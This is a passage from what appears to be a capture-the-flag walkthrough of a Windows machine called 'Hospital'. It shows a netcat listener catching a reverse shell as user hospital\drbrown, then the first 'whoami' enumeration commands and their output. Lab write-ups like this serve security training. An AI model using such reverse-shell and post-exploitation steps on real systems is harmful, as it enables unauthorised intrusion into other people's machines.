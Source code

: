 ![](/assets/attachments/Pasted%20image%2020240611160434.png)

After about a minute, the payload executed

```shell
$ nc -lvnp 9090
listening on [any] 9090 ...
connect to [10.10.14.108] from (UNKNOWN) [10.129.166.255] 6149
Microsoft Windows [Version 10.0.17763.4974]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\drbrown.HOSPITAL\Documents>
```

## Discovery

The tester now had a shell in the Windows installation. Time to gather user and system information.

```
Microsoft Windows [Version 10.0.17763.4974]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\drbrown.HOSPITAL\Documents>whoami
whoami
hospital\drbrown

C:\Users\drbrown.HOSPITAL\Documents>whoami /all
whoami /all

USER INFORMATION
----------------

User Name        SID                                           
================ ==============================================
hospital\drbrown S-1-5-21-4208260710-2273545631-1523135639-1601


```